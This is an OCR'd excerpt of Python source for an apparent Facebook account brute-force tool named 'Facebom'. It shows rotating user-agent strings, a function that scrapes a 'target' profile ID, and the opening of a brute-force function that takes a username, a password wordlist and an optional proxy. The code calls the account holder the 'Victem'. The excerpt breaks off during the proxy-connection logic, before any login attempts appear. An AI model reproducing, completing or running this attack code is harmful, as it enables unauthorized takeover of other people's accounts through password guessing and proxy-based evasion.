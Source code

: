            'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/15.0.874.54 Safari/535.2',
           'Opera/9.80 (J2ME/MIDP; Opera Mini/9.80 (S60; SymbOS; Opera Mobi/23.348; U; en) Presto/2.5.25 Version/10.54',
           'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11',
           'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.6 (KHTML, like Gecko) Chrome/16.0.897.0 Safari/535.6',
           'Mozilla/5.0 (X11; Linux x86_64; rv:17.0) Gecko/20121202 Firefox/17.0 Iceweasel/17.0.1']
    return random.choice(useragents)

#### Get Target Profile ID ####
def ID(url):
    try:
        idre = re.compile('"entity_id":"([0-9]+)"')
        con = requests.get(url).content
        idis = idre.findall(con)
        print(gr+"\n["+wi+"*"+gr+"] Target Profile"+wi+" ID: "+yl+idis[0]+wi)
    except IndexError:
        print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Please Check Your Victem Profile URL "+rd+"!!!"+wi)
        exit(1)

#### Facebom Brute Force Function ####
def FBOM(username, wordlist, proxy=None,passwd=None):
    if passwd==None:
      if not os.path.isfile(wordlist):
        print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" No Such File: [ "+rd+str(wordlist)+yl+" ] "+rd+"!!!"+wi)
        exit(1)
    if cnet() !=True:
        print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Please Check Your Intenrnet Connection "+rd+"!!!"+wi)
        exit(1)

    if proxy !=None:
        print(wi+"["+yl+"~"+wi+"] Connecting To "+wi+"Proxy[\033[1;33m {} \033[1;37m]...".format(proxy if ":" not in proxy else proxy.split(":")[0]))
        if ":" not in proxy:
            if proxy.count(".") ==3:
                if cpro(proxy) == True:
                    print(wi+"["+gr+"Connected"+wi+"]")
                    useproxy = proxy+":8080"
                else:
                  if cpro(proxy, port=80) ==True:
                    print(wi+"["+gr+"Connected"+wi+"]")
                    useproxy = proxy+":80"
                  else:
                    print(rd+"["+yl+"Connection Failed"+rd+"] !!!"+wi)
                    useproxy = False
                    print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Invalid HTTP/S Proxy["+rd+str(proxy)+yl+"]"+rd+" !!!"+wi)
                    exit(1)
            else:
                useproxy = False
                print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+"Invalid IPv4 ["+rd+str(proxy)+yl+"] "+rd+"!!!"+wi)
                exit(1)
        else:
            proxy,port = proxy.split(":")
            if proxy.count(".") ==3:
              if not port.isdigit() or int(port) <0 or int(port) > 65535:
                print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Invalid Port ["+rd+port+yl+"] Should Be In Range("+wi+"0-65535"+yl+")"+rd+"!!!"+wi)
                exit(1)
              if cpro(proxy, port=port) == True:
                print(wi+"["+gr+"Connected"+wi+"]")
                useproxy = proxy+":"+port
              else: